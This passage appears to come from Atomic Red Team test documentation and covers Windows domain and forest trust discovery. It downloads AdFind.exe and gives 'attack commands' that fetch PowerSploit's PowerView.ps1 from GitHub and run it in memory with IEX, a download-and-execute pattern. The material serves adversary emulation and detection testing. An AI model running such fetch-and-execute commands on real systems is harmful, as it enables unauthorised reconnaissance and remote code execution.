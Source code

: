 ##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\AdFind.exe") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "PathToAtomicsFolder\..\ExternalPayloads\AdFind.exe") -ErrorAction ignore | Out-Null
Invoke-WebRequest -Uri "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1087.002/bin/AdFind.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\AdFind.exe"
```

<br/>
<br/>

## Atomic Test #6 - Get-DomainTrust with PowerView

Utilizing PowerView, run Get-DomainTrust to identify domain trusts. Upon execution, progress and info about trusts within the domain being scanned will be displayed.

**Supported Platforms:** Windows

**auto_generated_guid:** f974894c-5991-4b19-aaf5-7cc2fe298c5d

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainTrust -Verbose
```

<br/>
<br/>

## Atomic Test #7 - Get-ForestTrust with PowerView

Utilizing PowerView, run Get-ForestTrust to identify forest trusts. Upon execution, progress and info about forest trusts within the domain being scanned will be displayed.

**Supported Platforms:** Windows

**auto_generated_guid:** 58ed10e8-0738-4651-8408-3a3e9a526279

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-ForestTrust -Verbose
```

<br/>
<br/>
